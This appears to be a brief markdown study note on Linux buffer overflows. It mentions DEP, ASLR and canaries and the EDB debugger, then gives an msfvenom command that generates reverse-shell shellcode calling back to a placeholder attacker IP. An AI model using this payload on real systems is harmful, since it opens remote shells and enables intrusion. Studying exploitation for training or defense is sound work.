 ```yaml
---
title: Linux Buffer Overflows
---
```


## DEP, ASLR, Canaries

Protection mechanism



Use EDB as debugger.

### Reverse Shell Code Generation

`-b` for bad chars

`-f` output format

`-v` for variable name to use

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 -b "\x00\x20" -f py -v shellcode
```

